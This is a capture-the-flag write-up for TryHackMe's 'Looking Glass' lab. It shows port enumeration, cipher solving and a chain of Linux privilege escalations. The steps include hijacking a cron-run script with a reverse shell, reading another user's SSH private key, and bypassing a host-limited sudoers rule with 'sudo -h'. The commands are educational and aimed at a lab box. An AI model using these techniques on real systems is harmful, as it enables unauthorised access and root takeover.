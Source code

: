# 48 - Looking Glass (sudoer's file rules for users)

Room Link --> [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.153.216 -sV -p- -T5

# output
from port 22, 9000 - 13783 were open, all SSH services.
```
{% endcode %}

Connecting to any of the ports gives either a lower or higher message output.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# port 13783
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 13783
Higher
Connection to 10.10.201.49 closed.


# port 9000
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 9000 
Warning: Permanently added '[10.10.201.49]:9000' (RSA) to the list of known hosts.
Lower
Connection to 10.10.201.49 closed.
```
{% endcode %}

We need to find the right port. I just kept narrowing it down till i  found the right port. Scripting this could take longer since we'd hae to iterate through all the numbers in an arithmetic progression.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh 10.10.201.49 -o 'StrictHostKeyChecking=no' -p 12091
Warning: Permanently added '[10.10.201.49]:12091' (RSA) to the list of known hosts.
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:	

```
{% endcode %}

Username: `Jabberwocky` .

Trying to decode the cipher text:

Using this [vigenere](https://www.boxentriq.com/code-breaking/vigenere-cipher) decoder site. I tried automatic decode, and found the right key.

<figure><img src=".gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

Then i used the generated key: `thealphabetcipher`&#x20;

```
'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.

'Beware the Jabberwock, my son!
The jaws that bite, the claws that catch!
Beware the Jubjub bird, and shun
The frumious Bandersnatch!'

He took his vorpal sword in hand:
Long time the manxome foe he sought--
So rested he by the Tumtum tree,
And stood awhile in thought.

And as in uffish thought he stood,
The Jabberwock, with eyes of flame,
Came whiffling through the tulgey wood,
And burbled as it came!

One, two! One, two! And through and through
The vorpal blade went snicker-snack!
He left it dead, and with its head
He went galumphing back.

'And hast thou slain the Jabberwock?
Come to my arms, my beamish boy!
O frabjous day! Callooh! Callay!'
He chortled in his joy.

'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.
Your secret is bewareTheJabberwock
```

We get the secret: `bewareTheJabberwock`&#x20;

When we input the secret, the connection closed.

<figure><img src=".gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

### Initial Access

But when we tried the credential given via the default ssh port 22, we logged in successfully.

`jabberwock : InstantlyWillingDivideFetch`&#x20;

<figure><img src=".gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tweedledum

There is a `twasBrillig.sh` file in jabberwock home dir, which uses the `bash wall` cmd to send a broadcast message, calling on a `poem.txt` file in the same dir.&#x20;

<figure><img src=".gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

Meaning the `.sh` script is printing the poem as a broadcast message. When i checked cronjob there is a job run by `tweedledum` user at reboot executing that `.sh` file.

<figure><img src=".gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

To exploit this, we just edit the `.sh` file with a reverse shell, then on reboot we get a shell as the `tweedledum` user (setup nc listener to catch the shell).

And we got a shell as `tweedledum` user.

<figure><img src=".gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tweedledee

`sudo -l` . we can execute bash as tweedledee

<figure><img src=".gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

`sudo -u tweedledee /bin/bash` - and we are Tweedledee.

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to HumptyDumpty

There is a `humptydumpty.txt` file in Tweedledee home dir.

```
tweedledee@looking-glass:/home/tweedledee$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

I just paste them into cyberchef and convert from Hex.

<figure><img src=".gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

`humptydumpty : zyxwvutsrqponmlk` .

`su humptydumpty` - and we are humptydumpty.

### Priv Esc to Alice

Although we don't have access to list anything in alice home dir, but we can see that Alice's `.ssh` folder is available, and we can also access the Private keys.

<figure><img src=".gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

Use the priv key to gain login ssh acct for Alice.

<figure><img src=".gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Tryhackme

Running LinPEAS.sh we found an interesting sudoers file rule for alice.

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

The following is the syntax used by the Sudoers files, which means alice can run /bin/bash as root, but only on the “ssalg-gnikool” host.

<figure><img src="https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/07/image-365.png?w=800&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

The -h flag can be used to specify the host when executing commands with Sudo:

`sudo -h ssalg-gnikool -u root /bin/bash` - and we are root.

```bash
alice@looking-glass:/etc/sudoers.d$ cat alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool -u root /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# cd /root/
root@looking-glass:/root# ls 
passwords  passwords.sh  root.txt  the_end.txt
```

Done!

